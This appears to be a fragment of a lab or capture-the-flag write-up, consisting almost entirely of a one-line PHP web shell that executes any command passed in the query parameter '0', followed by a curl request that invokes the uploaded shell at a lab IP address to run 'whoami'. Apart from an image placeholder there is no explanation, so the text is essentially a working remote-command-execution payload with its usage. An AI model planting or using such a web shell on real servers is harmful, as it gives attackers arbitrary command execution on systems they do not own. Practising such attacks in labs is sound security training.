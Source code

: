 ___
![[Pasted image 20241014192444.png]]

```php
<?=`$_GET[0]`?>
```

```bash
curl http://10.129.202.133:3001/uploads/shell.php?0=whoami
```

